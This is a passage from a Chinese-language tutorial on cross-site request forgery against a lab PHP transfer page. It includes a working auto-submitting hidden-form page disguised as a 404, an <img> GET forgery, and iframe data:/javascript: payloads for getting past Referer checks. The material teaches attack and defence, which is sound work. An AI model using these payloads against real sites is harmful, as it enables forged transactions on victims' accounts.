 将转账的表单该用post来完成

如果用$_REQUEST来获取请求数据，就有问题了，$\_REQUEST既可以获取get请求的数据，也可以获取post请求的数据，这就造成了在后台处理程序无法区分这到底是get请求的数据还是post请求的数据。在这种情况下，使用上面的代码`<img src="http://localhost:8001/csrf/account.php?uname=zyq&amount=100#">`依然可以完成攻击。

所以要使用$_POST来获取数据，但我们依然可以攻击。我们需要使用javascript来触发

```Html
  1 <html>
  2     <head type="text/javascript">
  3     ¦   <script>
  4     ¦   ¦   function steal(){
  5     ¦   ¦   ¦   var f = document.getElementById("transfer");
  6     ¦   ¦   ¦   f.uname.value = "zyq";
  7     ¦   ¦   ¦   f.amount.value = "100";
  8     ¦   ¦   ¦   f.submit();
  9     ¦   ¦   }
 10     ¦   </script>
 11     </head>
 12     <body onload="steal()">
 13     ¦   <form action="http://localhost:8001/csrf/account.php" method="post" id="transfer">
 14     ¦   ¦   <input type="hidden" name="uname" value="" />
 15     ¦   ¦   <input type="hidden" name="amount" value="" />
 16     ¦   </form>
 17     ¦   <h1>404</h1>
 18     ¦   <h2>file not found.</h2>
 19     </body>
 20 </html>
```

### 2. Referer Check

我们也可以验证HTTP请求头中的Referer字段

1. 判断Referer是否是某域

2. 判断Referer中是否存在某关键词／某域名

   我们可以把文件名直接改为该关键词／域名

3. 利用空Referer绕过

   + 通过地址栏手动输入，或者从书签中直接打开

   + 使用了noreferer标签

   + 由于浏览器的特性，跨协议请求时不带referer，例如从https向http跳转的时候是不带referer的

   + https环境不好搭建，我们还可以利用用ftp://,file://,javascript:,data:

     ```html
     利用data:协议
     <iframe src="data:text/html,<script src=http://localhost/csrf/evil.html></script>"> //IE不支持
     利用 xxx.src='javascript:"HTML代码的方式"';
     <iframe id="aa" src=""></iframe>
     <script>
     document.getElementById("aa").src='javascript:"<html><body><scr'+'ipt>eval(你想使用的代码)</scr'+'ipt></body></html>"';
     </script>
     ```
